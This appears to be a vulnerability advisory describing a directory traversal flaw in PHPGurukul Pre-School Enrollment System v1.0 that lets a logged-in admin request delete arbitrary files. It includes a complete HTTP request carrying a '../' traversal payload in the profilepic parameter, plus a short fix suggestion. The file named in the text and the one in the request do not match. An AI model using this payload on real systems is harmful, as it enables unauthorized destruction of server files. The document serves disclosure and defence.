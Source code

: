 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-2

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by a directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with profilepic in the manage-classes.php file   
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250423150403.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable function in the manage-classes.php article, manage-classes-delete
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/3.png)
  
   Intercept the data packet and find the problematic parameter profilepic
   
   ![4](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100051.png)

   Transformed into attack payload  

    GET /School/preschool/admin/manage-teachers.php?action=delete&&tid=1&&profilepic=../../../../../../aaa.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate, br, zstd
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/School/preschool/admin/manage-teachers.php
    Accept-Language: zh-CN,zh;q=0.9
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
    Cookie: PHPSESSID=7t2liii8fu23b3cjsll5qi6q8t


   Create aaa.txt test file in the local D drive   
       ![5](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100159.png)   

   Send payload, aaa.txt file has been deleted   
   ![6](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100443.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
